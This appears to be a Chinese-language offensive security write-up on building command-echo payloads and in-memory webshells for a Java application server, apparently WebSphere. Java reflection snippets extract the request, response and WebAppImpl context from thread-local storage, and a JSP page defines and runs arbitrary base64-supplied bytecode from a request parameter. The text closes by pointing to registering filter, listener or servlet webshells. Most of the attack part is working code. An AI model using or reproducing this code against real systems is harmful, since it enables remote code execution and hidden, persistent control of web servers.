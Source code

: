 与其他中间件一样, 回显与内存马的构造离不开两3个对象： request、response、web context，所以直接 debug 然后找到存储这些对象的全局变量即可，从其他中间件的经验来看，一般线程对象中有我们需要的对象。

回显
---

Thread.currentThread()

- request
```
((WebContainerRequestState) ((ThreadPool.Worker) Thread.currentThread()).wsThreadLocals[37]).currentThreadsIExtendedRequest
```

![image](https://user-images.githubusercontent.com/55024146/217268740-a40ab180-362b-4e1f-9994-0a1d8f9c9f6d.png)


转换成 java 代码
```
Thread currentThread = Thread.currentThread();
Field field = currentThread.getClass().getDeclaredField("wsThreadLocals");
field.setAccessible(true);
Object obj = field.get(currentThread);
Object[] wsThreadLocals = (Object[]) obj;
for (int i = 0; i < wsThreadLocals.length; i++) {
    obj = wsThreadLocals[i];
    if (obj != null && obj.getClass().getName().endsWith("WebContainerRequestState")) {
        field = obj.getClass().getDeclaredField("currentThreadsIExtendedRequest");
        field.setAccessible(true);
        Object request = field.get(obj);
        break;
    }
}
```

![image](https://user-images.githubusercontent.com/55024146/217272175-afa9242e-d424-49e9-a471-6d7bf4937d76.png)


同理

- response

```
Thread currentThread = Thread.currentThread();
Field field = currentThread.getClass().getDeclaredField("wsThreadLocals");
field.setAccessible(true);
Object obj = field.get(currentThread);
Object[] wsThreadLocals = (Object[]) obj;
String cmd;
for (int i = 0; i < wsThreadLocals.length; i++) {
    obj = wsThreadLocals[i];
    if (obj != null && obj.getClass().getName().endsWith("WebContainerRequestState")) {
        field = obj.getClass().getDeclaredField("currentThreadsIExtendedResponse");
        field.setAccessible(true);
        Object response = field.get(obj);
        break;
    }
}
```

搭建代码执行的场景进行回显测试
- newInstance.jsp

```
<%!
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) ((byte[]) ((byte[]) ((byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str))));
        } catch (Exception var4) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke((Object) null);
            return (byte[]) ((byte[]) ((byte[]) ((byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str))));
        }
    }
%>

<%
    byte[] byteCode = base64Decode(request.getParameter("base64String"));
    java.lang.reflect.Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
    method.setAccessible(true);
    Class clazz = (Class) method.invoke(Thread.currentThread().getContextClassLoader(), byteCode, 0, byteCode.length);
    response.getWriter().println(clazz.newInstance());
%>
```

测试结果

![image](https://user-images.githubusercontent.com/55024146/217281010-3a08b195-c357-4e78-868b-e711ed9e703e.png)

内存马
---

找到 web context, 调用对应的方法(addFilter/addListener/addServlet)添加即可, 上面已经取到了 request 对象, 所以直接基于 request 获取 context

![image](https://user-images.githubusercontent.com/55024146/217289806-9b593114-8cdb-405a-803f-108dbbbaa304.png)

图中的 context(WebAppImpl) 就是我们需要的，对应的java代码片段

```
Thread currentThread = Thread.currentThread();
Field field = currentThread.getClass().getDeclaredField("wsThreadLocals");
field.setAccessible(true);
Object obj = field.get(currentThread);
Object[] wsThreadLocals = (Object[]) obj;
Object context;
for (int i = 0; i < wsThreadLocals.length; i++) {
    obj = wsThreadLocals[i];
    if (obj != null && obj.getClass().getName().endsWith("WebContainerRequestState")) {
        field = obj.getClass().getDeclaredField("currentThreadsIExtendedRequest");
        field.setAccessible(true);
        Object request = field.get(obj);
        Object servletContext = request.getClass().getMethod("getServletContext").invoke(request);
        field = servletContext.getClass().getDeclaredField("context");
        field.setAccessible(true);
        // WebAppImpl
        context = field.get(servletContext);
        break;
    }
}
```

至此, 就拿到了 WebAppImpl, 为什么取它呢? 因为它继承自 WebApp

![image](https://user-images.githubusercontent.com/55024146/217291646-d3dd0bdb-a3fd-4aab-bb6f-d8b8344fd58c.png)

接下来就是调用各种类型内存马需要的add方法添加即可。











